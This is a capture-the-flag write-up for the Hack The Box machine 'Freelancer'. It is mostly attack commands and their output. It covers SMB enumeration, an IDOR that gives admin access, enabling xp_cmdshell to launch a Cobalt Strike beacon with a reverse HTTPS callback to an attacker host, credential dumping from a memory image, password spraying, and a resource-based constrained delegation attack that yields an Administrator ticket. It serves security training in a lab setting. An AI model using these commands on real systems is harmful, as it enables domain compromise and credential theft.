


## Entry

Lets start with netexec

```bash
➜  freelancer nxc smb 10.10.11.5
SMB         10.10.11.5      445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
➜  freelancer nxc smb 10.10.11.5
➜  freelancer sudo nxc smb 10.10.11.5 --generate-hosts-file /etc/hosts
```

and we generate our /etc/hosts file.

```bash
➜  freelancer cat /etc/hosts
[SNIP]
10.10.11.5     DC.freelancer.htb freelancer.htb DC
```

we have guest access

```bash
➜  freelancer nxc smb 10.10.11.5 -u '' -p ''
SMB         10.10.11.5      445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.5      445    DC               [+] freelancer.htb\: 
➜  freelancer nxc smb 10.10.11.5 -u '' -p '' --shares
SMB         10.10.11.5      445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.5      445    DC               [+] freelancer.htb\: 
SMB         10.10.11.5      445    DC               [-] Error enumerating shares: STATUS_ACCESS_DENIED
➜  freelancer nxc smb 10.10.11.5 -u 'Guest' -p '' --shares
SMB         10.10.11.5      445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.5      445    DC               [-] freelancer.htb\Guest: STATUS_NETLOGON_NOT_STARTED 
```

but nothing we can do anymore. So lets start nmap scan

```bash
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 127 nginx 1.25.5
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://freelancer.htb/
|_http-server-header: nginx/1.25.5
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-07-07 03:39:25Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: freelancer.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 127
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: freelancer.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 127
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

okey we have 80 port is open and there is web server thats make sense cause nothing special and interesting at internal yet.

### Web Server

http://freelancer.htb/


we have something interesting here. let me start dir scan

```bash
feroxbuster --url http://freelancer.htb/
[###>----------------] - 12s     4928/30000   413/s   http://freelancer.htb/admin
```



okey its seems like required auth let me register or smth like that.

http://freelancer.htb/freelancer/register/


I was able to register and login as freelancer but if do same shit for employer i got this issue


i will look for how i can bypass this or how i can activate.



and its redirect us here http://freelancer.htb/accounts/recovery/

lets try to activate our account.


okey i will change my password off course but i already found something interesting at url so far.


anddd BAMM we are in and i found which is different right? QRcode lets read it


wtf that shit lets look at

```bash
➜  freelancer echo "MTAwMTE=" | base64 -d
10011
```

we can try something like that maybe idk

```bash
➜  freelancer echo "10010" | base64
MTAwMTAK

```

its says invalid token but watch out that one.


so refresh site every u are trying again and again and again.


i will try `1`

```bash
➜  freelancer echo "1" | base64
MQo=
```


now we got something different lets try `2`

```bash
➜  freelancer echo "2" | base64
Mgo=
```


Bommm!! we are admin. maybe now we can visit `/admin` dir.


let me execute something.


lets see if its crackable

```bash
➜  freelancer john sql_svc.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:04 DONE (2025-07-06 19:30) 0g/s 3259Kp/s 3259Kc/s 3259KC/s !!12Honey..*7¡Vamos!
Session completed
```


i will check if we can login as `SA` and try to enavble xp_cmdshell.

```bash
EXECUTE AS LOGIN = 'sa';
-- Check if it worked
SELECT SYSTEM_USER

EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;

EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```


and now lets run whoami

```bash
EXECUTE AS LOGIN = 'sa';

EXEC xp_cmdshell 'whoami';
```


and i will load my beacon here. with my loader

https://github.com/lineeralgebra/shellcoderunner

```bash
➜  shellcoderunner git:(main) ✗ python3 xor.py a.bin mysecretkey --compile
[+] NTAPI-based C++ runner saved to shellcode_runner.cpp
[*] Compiling shellcode_runner.cpp to runner.exe...
[+] Compilation successful: runner.exe
```

and lets load it


and execute it.

```bash
EXECUTE AS LOGIN = 'sa';

EXEC xp_cmdshell 'C:\ProgramData\runner.exe';
```

and we got it!!!!


we dont have user.txt and password yet so lets check

```bash
[07/06 19:57:02] [*] Current directory is C:\Users\sql_svc
[07/06 19:57:24] beacon> powerpick findstr /s /m /i "pass" *.*
[07/06 19:57:24] [*] Tasked beacon to run: findstr /s /m /i "pass" *.* (unmanaged)
```

and i found here

```bash
[07/06 19:59:11] beacon> powerpick type C:\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU\sql-Configuration.INI
[07/06 19:59:11] beacon> powerpick type C:\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU\sql-Configuration.INI
[07/06 19:59:11] [*] Tasked beacon to run: type C:\Users\sql_svc\Downloads\SQLEXPR-2019_x64_ENU\sql-Configuration.INI (unmanaged)
[07/06 19:59:11] [+] host called home, sent: 137984 bytes
[07/06 19:59:14] [+] received output:
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False" 
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="FREELANCER\sql_svc"
SQLSVCPASSWORD="IL0v3ErenY3ager"
SQLSYSADMINACCOUNTS="FREELANCER\Administrator"
SECURITYMODE="SQL"
SAPWD="t3mp0r@ryS@PWD"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True

```

we got 2 password `IL0v3ErenY3ager` and `t3mp0r@ryS@PWD` lets try with  netexec.

```bash
➜  freelancer nxc smb 10.10.11.5 -u users.txt -p 'IL0v3ErenY3ager' --continue-on-success
[SNIP]
SMB         10.10.11.5      445    DC               [+] freelancer.htb\mikasaAckerman:IL0v3ErenY3ager
```

i will check if we have ldap access fastly and dump BH data.

```bash
➜  freelancer nxc ldap DC.freelancer.htb -u mikasaAckerman -p 'IL0v3ErenY3ager' --bloodhound --dns-server 10.10.11.5 --collection All
LDAP        10.10.11.5      389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:freelancer.htb)
LDAP        10.10.11.5      389    DC               [+] freelancer.htb\mikasaAckerman:IL0v3ErenY3ager 
LDAP        10.10.11.5      389    DC               Resolved collection methods: objectprops, container, session, trusts, rdp, group, psremote, dcom, acl, localadmin
LDAP        10.10.11.5      389    DC               Done in 00M 17S
LDAP        10.10.11.5      389    DC               Compressing output into /home/elliot/.nxc/logs/DC_10.10.11.5_2025-07-06_203210_bloodhound.zip

```


but nothing special yet so let me use `spawnas` and load beacon for this user

```bash
[07/06 20:35:24] beacon> spawnas freelancer.htb\mikasaAckerman IL0v3ErenY3ager HTB
[07/06 20:35:24] [*] Tasked beacon to spawn windows/beacon_https/reverse_https (10.10.14.36:443) as freelancer.htb\mikasaAckerman
[07/06 20:35:24] [+] host called home, sent: 307263 bytes
```


and i found somethin special


mail.txt

```bash
➜  freelancer cat mail.txt 
��Hello Mikasa,
I tried once again to work with Liza Kazanoff after seeking her help to troubleshoot the BSOD issue on the "DATACENTER-2019" computer. As you know, the problem started occurring after we installed the new update of SQL Server 2019.
I attempted the solutions you provided in your last email, but unfortunately, there was no improvement. Whenever we try to establish a remote SQL connection to the installed instance, the server's CPU starts overheating, and the RAM usage keeps increasing until the BSOD appears, forcing the server to restart.
Nevertheless, Liza has requested me to generate a full memory dump on the Datacenter and send it to you for further assistance in troubleshooting the issue.
Best regards,
```

and lets download 7z file and 

```bash
`ecretsdump.py -sam 0xffffd3067d935000-SAM-MACHINE_SAM.reghive -security 0xffffd3067d7f0000-SECURITY-MACHINE_SECURITY.reghive -system 0xffffd30679c46000-SYSTEM-MACHINE_SYSTEM.reghive local
Impacket v0.10.1.dev1+20230216.13520.d4c06e7f - Copyright 2022 Fortra

[*] Target system bootKey: 0xaeb5f8f068bbe8789b87bf985e129382
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:725180474a181356e53f4fe3dffac527:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:04fc56dd3ee3165e966ed04ea791d7a7:::
[*] Dumping cached domain logon information (domain/username:hash)
FREELANCER.HTB/Administrator:$DCC2$10240#Administrator#67a0c0f193abd932b55fb8916692c361
FREELANCER.HTB/lorra199:$DCC2$10240#lorra199#7ce808b78e75a5747135cf53dc6ac3b1
FREELANCER.HTB/liza.kazanof:$DCC2$10240#liza.kazanof#ecd6e532224ccad2abcf2369ccb8b679
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:a680a4af30e045066419c6f52c073d738241fa9d1cff591b951535cff5320b109e65220c1c9e4fa891c9d1ee22e990c4766b3eb63fb3e2da67ebd19830d45c0ba4e6e6df93180c0a7449750655edd78eb848f757689a6889f3f8f7f6cf53e1196a528a7cd105a2eccefb2a17ae5aebf84902e3266bbc5db6e371627bb0828c2a364cb01119cf3d2c70d920328c814cad07f2b516143d86d0e88ef1504067815ed70e9ccb861f57394d94ba9f77198e9d76ecadf8cdb1afda48b81f81d84ac62530389cb64d412b784f0f733551a62ec0862ac2fb261b43d79990d4e2bfbf4d7d4eeb90ccd7dc9b482028c2143c5a6010
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:1003ddfa0a470017188b719e1eaae709
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xcf1bc407d272ade7e781f17f6f3a3fc2b82d16bc
dpapi_userkey:0x6d210ab98889fac8829a1526a5d6a2f76f8f9d53
[*] NL$KM 
 0000   63 4D 9D 4C 85 EF 33 FF  A5 E1 4D E2 DC A1 20 75   cM.L..3...M... u
 0010   D2 20 EA A9 BC E0 DB 7D  BE 77 E9 BE 6E AD 47 EC   . .....}.w..n.G.
 0020   26 02 E1 F6 BF F5 C5 CC  F9 D6 7A 16 49 1C 43 C5   &.........z.I.C.
 0030   77 6D E0 A8 C6 24 15 36  BF 27 49 96 19 B9 63 20   wm...$.6.'I...c 
NL$KM:634d9d4c85ef33ffa5e14de2dca12075d220eaa9bce0db7dbe77e9be6ead47ec2602e1f6bff5c5ccf9d67a16491c43c5776de0a8c6241536bf27499619b96320
[*] _SC_MSSQL$DATA 
(Unknown User):PWN3D#l0rr@Armessa199
[*] Cleaning up...
```

we got this password `PWN3D#l0rr@Armessa199` lets do password spray

```bash
➜  freelancer nxc smb 10.10.11.5 -u users.txt -p 'PWN3D#l0rr@Armessa199' --continue-on-success
[SNIP]
SMB         10.10.11.5      445    DC               [+] freelancer.htb\lorra199:PWN3D#l0rr@Armessa199 

```


wtf????? lets see.

## RBCD (Linux Abuse)

**I WILL EXPLAIN EVERYTHING AT COBALT STRIKE PART SO PLEASE SCROLL DOWN**


we have to be sure before we create commputer

here is full comamnds

```bash
➜  freelancer addcomputer.py freelancer.htb/lorra199:'PWN3D#l0rr@Armessa199' -computer-name irem -computer-pass Winter2025! -dc-host DC.freelancer.htb       

[*] Successfully added machine account irem$ with password Winter2025!.

➜  freelancer rbcd.py -delegate-from 'irem$' -delegate-to 'DC$' -action 'write' freelancer.htb/lorra199:'PWN3D#l0rr@Armessa199'

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] irem$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     irem$        (S-1-5-21-3542429192-2036945976-3483670807-11601)

➜  freelancer faketime "$(ntpdate -q freelancer.htb | cut -d ' ' -f 1,2)"  getST.py -spn "CIFS/dc.freelancer.htb" -impersonate "Administrator" freelancer.htb/irem$:'Winter2025!' -altservice "HTTP/dc.freelancer.htb"

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Changing service from CIFS/dc.freelancer.htb@FREELANCER.HTB to HTTP/dc.freelancer.htb@FREELANCER.HTB
[*] Saving ticket in Administrator@HTTP_dc.freelancer.htb@FREELANCER.HTB.ccache
```

and we can export it 

## RBCD (Cobalt Strike)

First of all lets import PowerView module

```bash
powershell-import /home/elliot/tools/PowerView.ps1
```

This attack involves creating a new computer object in the domain, we first need to verify whether regular users are permitted to do so. By default, domain members can typically join up to 10 computers to the domain. To confirm this setting, we can query the root domain object and check the ms-DS-MachineAccountQuota attribute.

Command to execute:

```bash
powerpick Get-DomainObject -Identity "dc=freelancer,dc=htb" -Domain freelancer.htb
```


The quote is set to the default of 10, which is good.

I’ll also need to make sure there’s a 2012+ DC in the environment:

Command to execute:

```bash
powerpick Get-DomainController
```


2019 Standard is great.

Finally, I’ll want to check that the **msds-allowedtoactonbehalfofotheridentity** is empty:

Command to execute:

```bash
powerpick Get-NetComputer DC | Select-Object -Property name, msds-allowedtoactonbehalfofotheridentity
```


### **➜ Create Fake Computer**

Of course im gonna use [StandIn](https://github.com/Flangvik/SharpCollection/blob/master/NetFramework_4.7_Any/StandIn.exe)

Command to execute:

```bash
execute-assembly /home/elliot/tools/SharpCollection/NetFramework_4.7_Any/StandIn.exe --computer EvilComputer2 --make --Domain freelancer.htb
```


It’s created machine EvilComputer with password KJhux7nUqtVCYv9

Get its SID

Command to execute:

```bash
[07/06 21:14:04] beacon> powerpick Get-DomainComputer -Identity EvilComputer2 -Properties objectsid
[07/06 21:14:04] [*] Tasked beacon to run: Get-DomainComputer -Identity EvilComputer2 -Properties objectsid (unmanaged)
[07/06 21:14:04] [+] host called home, sent: 137994 bytes
[07/06 21:14:09] [+] received output:

objectsid                                      
---------                                      
S-1-5-21-3542429192-2036945976-3483670807-11605
```

Using Active Directory Module we can set msDS-AllowedToActOnBehalfOfOtherIdentity

Commands to execute:

```bash
powerpick Set-ADComputer dc -PrincipalsAllowedToDelegateToAccount EvilComputer2$
powerpick Get-ADComputer dc -Properties PrincipalsAllowedToDelegateToAccount
```


Now to get a S4U hash to impersonate as administrator with Rubeus

Command to execute:

```bash
execute-assembly /home/elliot/tools/Rubeus.exe hash /password:KJhux7nUqtVCYv9 /user:EvilComputer2$ /domain:DC.freelancer.htb
```


Now lets craete ticket for Administrator.

Command to execute:

```bash
execute-assembly /home/elliot/tools/Rubeus.exe s4u /user:EvilComputer2$ /password:KJhux7nUqtVCYv9 /domain:freelancer.htb /impersonateuser:administrator /rc4:53FBBC6DA80F95324AF18F4505B93031 /msdsspn:host/dc.freelancer.htb /nowrap
```


now lets save it as kirbi file at our host

Command to execute:

```bash
➜  freelancer echo -n "doIGujCCBragAwIBBaEDAgEWooIFwzCCBb9hggW7MIIFt6ADAgEFoRAbDkZSRUVMQU5DRVIuSFRCoiQwIqADAgECoRswGRsEaG9zdBsRZGMuZnJlZWxhbmNlci5odGKjggV2MIIFcqADAgESoQMCAQuiggVkBIIFYGhWQQ3yZ43NTMQe8ionPkBQNtYqZPMTicuom6qkLIIB0nGwQz+vF3tGPhSrdIngSlE/cGhMUYB7HM6GmcYQ3PyRz/kaX3TmTp7MYUHeYwi+aWivIc1DQMySaXER/0Q6EN/e0AhAemnnIj41zVzJbJOv5IF5LK+OsTf5G0kc103XQiz9DZkun+sFVskfxCRcJP0BseMmvMkyWZN7tL1tpbzKafPn+7uRX6mjs0l68c0ZxzF1/RlmTkjc4w4mVhrCAR3KGhHMmH72aK7p4tJqLqtfK/T7SyKVqbqw8N1+CAIqXnf8tYbcOyE5/yRW0eEK2QkbrTwVCow86iC5EumLoR3CmTFCWm+S0Y+1MUPLh6jE99LA8jQJWFjd6c4LWHt3fzgpqk46UPHjvPd1R+A+bC/2gDedUMc/dtkVeeIKTBeUcPv8ACLkhzJQxy6qJSHkot/wtxTSO7Ya7ZgZ5dH2B0QwqF42BEaK1/hi8o8mfTIXGPPQJUqYDwxereredeUPDagvrJBsSxIKuhL6OxsQ5BTzzfwAW7sYeUFI+ElraXb2E6rJUw+j/si9IswtlIov5NoaoouvusSWq3OOFlgHQ/6qOBF1csdCZSjHix6k+cqAcgUKHfOh+DK6HQylwFHoQtzq9mlapmT00VA+t4bPf6MRNWjD7vTrMjbglYTykjoqUDzLIjZxEh12kdfJESioZGFklEz6tzcVrUAJmae2Rd6bbeIMdR6okoBp7iDQMAXSRrnat4UnJUzpVl/ftUUOp8sFRZKdANZGIxXRLnDw0N0RrFJt0TZI9w3Tkl3yGgz6scBnFzCJzdgGxH3gg+HgM9egUatoR3hWvFWjDYoMuiKrFtYuY06wQFhtlgSFQQyQnjyT84lqzUO1yv7c4+cde4Q49jUhAkPDbssBTNRGBh+BRDii4+Dtm7NapQcUo1kja2vocq0vMY9rfLamum2sRRlod2bG8k6yA6faZUnl7067XhO5GCZB7qZqs3RRyPbvgXK2LmoZ8cn2f9SnPqoUhwMAbpo/Xw6Hw2nYV0ruM8ysKBZxcAFZcbtfP00eWDk027KrfVry7xuPw0YDJ2PFVafgweVlZGlYmVAZUrGIrsdfS25gSLlJglW2YcZPbuyriPAUirR8+Oi67ZIjvtO+0Cn8190g6jXnlK+fG5C7qkV4KBKeQSuGvH6N4jyg9IV3la7u6yIrNq8ClEGe4gQslMekRMuNMra5RTEH8WpjHH1NPkJYF/0EH04qRzg0eqE/4pxz/lk8QjkHpVpIne5bfaCOZgOCyUbeHH0DfNpt/hg5VQlcAdIqdKRo3kkbPMOdTMklVsj7kLRzLAbqYlfyWYWNVAU0VEhca/IyFxBcAl9EU5zQ1kIGUqkCE9VCzYo4qbEdfPV4xiBsPzy6i/0sZyn1Ha2p1IiFXs/YGriDVgEW6+X+oZhWIU0MluSNlO+nFOj33I1+95Hxk/fOIEQ6SsYD+CgoGBfv5u1TIbCDhWCoAbX6TbBJJ/7xcT06BjRXnUfrCgCpdrrB7n3znPJul5+sKKeJGzc5NGXrkw2jwZw3dwSsC9UXwIknj7cW8/kaYo3xK66qGALhFMqFVQvbbkihJGpvj9jq1t94lh/SagcTYB2sn4D7Es/FQiZZhiTezg1iJQ3NYaaZmYQzltzgZxiTpZxlDcs3nS/wnoWdroJqBHy7M2uh9L7Vduh7xKKLkMIj5n5IxquVIXxKfZ3a46wmGm7GI1E9hJJ460REC8qah88fkC2fs5ZLFe80pcGfGcIEKFBSOurbOSnx9K6UXbPog34a8JwulUZa4IxX6HG8w20YTWkxbHxcpSzbHPy+o4HiMIHfoAMCAQCigdcEgdR9gdEwgc6ggcswgcgwgcWgGzAZoAMCARGhEgQQ+FCphuJUNbHkR+nd5bnhfKEQGw5GUkVFTEFOQ0VSLkhUQqIaMBigAwIBCqERMA8bDWFkbWluaXN0cmF0b3KjBwMFAEClAAClERgPMjAyNTA3MDcwNjE5MzFaphEYDzIwMjUwNzA3MTYxOTMxWqcRGA8yMDI1MDcxNDA2MTkzMVqoEBsORlJFRUxBTkNFUi5IVEKpJDAioAMCAQKhGzAZGwRob3N0GxFkYy5mcmVlbGFuY2VyLmh0Yg==
" | base64 -d > administrator.kirbi
➜  freelancer ticketConverter.py administrator.kirbi administrator.ccache
/usr/local/bin/ticketConverter.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'ticketConverter.py')
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[*] converting kirbi to ccache...
[+] done
➜  freelancer export KRB5CCNAME=Administrator.ccache                                      
➜  freelancer klist
klist: No credentials cache found (filename: Administrator.ccache)
➜  freelancer export KRB5CCNAME=administrator.ccache 
➜  freelancer klist
Ticket cache: FILE:administrator.ccache
Default principal: administrator@FREELANCER.HTB

Valid starting       Expires              Service principal
07/07/2025 02:19:31  07/07/2025 12:19:31  host/dc.freelancer.htb@FREELANCER.HTB
        renew until 07/14/2025 02:19:31

```

and we are done thanks for fucking 

## Creds

| username | password / hash | work at | from | privileges |
| --- | --- | --- | --- | --- |
| mikasaAckerman | IL0v3ErenY3ager | LDAP | sql-Configuration.INI | - |
| lorra199 | PWN3D#l0rr@Armessa199 | winrm | MEMORY.7z | RBCD |

## Tools

https://github.com/lineeralgebra/shellcoderunner

https://github.com/ufrisk/MemProcFS
